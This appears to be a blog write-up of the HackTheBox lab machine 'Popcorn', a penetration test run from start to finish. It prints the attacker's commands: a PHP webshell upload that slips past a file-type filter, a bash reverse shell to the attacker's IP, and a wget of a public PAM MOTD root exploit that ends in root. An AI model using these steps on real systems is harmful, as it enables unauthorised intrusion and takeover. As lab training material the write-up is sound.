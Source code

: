 ```yaml
---
layout: post
title:  "Popcorn"
date:   2023-11-02 22:55:30 -0400
categories: jekyll update
---
```


Popcorn

<img
  src="/assets/popcorn.png"
  alt="featured image"
  class="featured-image-post"
/>

## nmap
```
└─# nmap -p- 10.10.10.6     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 18:53 EDT
Nmap scan report for 10.10.10.6
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 36.97 seconds
```

```
└─# nmap -p 22,80 -sC -sV 10.10.10.6           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 18:56 EDT
Nmap scan report for 10.10.10.6
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

## gobuster
```
└─# gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --timeout 20s 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 20s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47016]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]
Progress: 28643 / 220561 (12.99%)[ERROR] Get "http://10.10.10.6/AbleFtp": context
```

### 10.10.10.6:80
![[Pasted image 20231102185842.png]]

### 10.10.10.6/test
![[Pasted image 20231102214854.png]]

### 10.10.10.6/rename
![[Pasted image 20231102215443.png]]

### 10.10.10.6/torrent
![[Pasted image 20231102215613.png]]

![[Pasted image 20231102215710.png]]

After registering an account, I browsed around and found an upload page. I downloaded a legit torrent file and uploaded it.
![[Pasted image 20231102222727.png]]
![[Pasted image 20231102222630.png]]

After uploading, there is a button to upload a screenshot.
![[Pasted image 20231102222830.png]]
![[Pasted image 20231102222908.png]]

I chose a random screenshot, this kali  logo and uploaded it.
![[Pasted image 20231102224231.png]]

I captured the request in Burp and changed the extension to php and the content to a php webshell. At first I had to play around with Repeater to see which filters were in place, but this way submitted without errors.
![[Pasted image 20231102224207.png]]

I refreshed and there is the screenshot.
![[Pasted image 20231102224533.png]]

After some guessing I found the image at `/torrent/upload`
![[Pasted image 20231102225457.png]]
![[Pasted image 20231102225543.png]]

I test out execution with a simple`id` command with curl and its successful:
```
┌──(root💀kali)-[/home/spacemoth/machines/popcorn]
└─# curl http://10.10.10.6/torrent/upload/2becb0265247e56217dcac4f5ff7308699ee0d3e.php?cmd=id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

## Shell

I will start netcat and use this line to get a reverse shell:
```
curl http://10.10.10.6/torrent/upload/2becb0265247e56217dcac4f5ff7308699ee0d3e.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'"
```

```
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.6] 36235
bash: no job control in this shell                                                                                                               
www-data@popcorn:/var/www/torrent/upload$
```

I got the shell and now I will upgrade:
```
python -c 'import pty;pty.spawn("bash")'
```

Obtain user flag:
```
www-data@popcorn:/home$ ls 
ls
george
www-data@popcorn:/home$ cat george
cat george
cat: george: Is a directory
www-data@popcorn:/home$ cd george
cd george
www-data@popcorn:/home/george$ ls
ls
torrenthoster.zip  user.txt
www-data@popcorn:/home/george$ cat user.txt                                      cat user.txt                                                            
3b0************************
```

## PrivEsc

I found `motd.legal-displayed` and knowing this file can lead to code execution I found this exploit after some googling, https://www.exploit-db.com/exploits/14339. I downloaded the exploit and hosted it on my machine:
```
└─$ python2.7 -m SimpleHTTPServer 1337                                  
Serving HTTP on 0.0.0.0 port 1337 ...
```

On victim machine I used `wget` to download it:
```
www-data@popcorn:/tmp$ wget http://10.10.14.24:1337/14339.sh 
wget http://10.10.14.24:1337/14339.sh 
--2023-11-03 05:15:40--  http://10.10.14.24:1337/14339.sh
Connecting to 10.10.14.24:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3042 (3.0K) [text/x-sh]
Saving to: `14339.sh'

100%[======================================>] 3,042       --.-K/s   in 0s      

2023-11-03 05:15:40 (124 MB/s) - `14339.sh' saved [3042/3042]
```

I then chmod the file and ran it, which lead to root:
```
www-data@popcorn:/tmp$ chmod +x 14339.sh
chmod +x 14339.sh
www-data@popcorn:/tmp$ ./14339.sh
./14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/tmp# whoami
whoami
root
```

##### Root Flag
```
root@popcorn:/# cd root
cd root
root@popcorn:~# ls
ls
root.txt
root@popcorn:~# cat root.txt
cat root.txt
850*****************************
```

